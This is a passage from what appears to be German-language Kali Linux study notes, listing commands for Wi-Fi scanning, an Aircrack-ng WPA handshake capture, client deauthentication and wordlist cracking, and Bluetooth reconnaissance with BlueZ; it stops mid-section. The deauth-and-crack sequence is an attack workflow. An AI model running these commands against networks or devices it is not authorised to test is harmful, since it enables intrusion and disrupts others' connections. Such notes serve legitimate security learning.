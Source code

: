     kali >iwconfig

Wireless Access Points in der Nähe scannen (zeigt alle Infos an)

    kali >iwlist wlan0 scan

Wireless Access Points in der Nähe scannen (Nur Keyinfos)

    kali >nmcli dev wifi

Mit einem WLAN verbinden

    kali >nmcli dev wifi connect Hackers-Arise password 12345678

###  18.2. <a name='Aircrack-ng'></a>Aircrack-ng
WiFi Karte in Monitor Modus schalten (Um Traffic mitlesen zu können)

    airmon-ng start|stop|restart interface <br>
    (kali >airmon-ng start wlan0)

Broadcast Meldungen von WLANs mitlesen

    kali >airodump-ng wlan0mon

Mit Infos aus obigen Befehelen können nun die Daten die zwischen einem Client und dessen AP, mitgelesen werden.

    airodump-ng -c 10 --bssid 01:01:AA:BB:CC:22 -w Hackers-ArisePSK wlan0mon

Nun können alle Clients gezwungen werden sich zu reauthentifizieren

    aireplay-ng --deauth 100 -a 01:01:AA:BB:CC:22-c A0:A3:E2:44:7C:E5 wlan0mon

Die ausgelesenen Hashes können nun mit einer Wörterliste versucht werden zu knacken

    aircrack-ng -w wordlist.dic -b 01:01:AA:BB:CC:22 Hacker-ArisePSK.cap

###  18.3. <a name='BlueZBluetooth'></a>BlueZ (Bluetooth)
Ist eine Implementierung des Bluetooth Protokoll Stack und wird zum scannen von Bluetooth Geräten verwendet.

Bluetooth Adapter Informationen und Einstellungen anzeigen

    kali >hciconfig

Adapter aktivieren

    kali >hciconfig hci0 up

Nach anderen Bluetooth Geräten scannen

    kali >hcitool scan

Weitere Informationen von Bluetooth Geräten erhalten

    kali >hcitool inq

Nach den Services auf einem Bluetooth Gerät scannen
    
    kali >sdptool browse 76:6E:46:63:72:66

Ein Bluetooth Gerät anpingen
    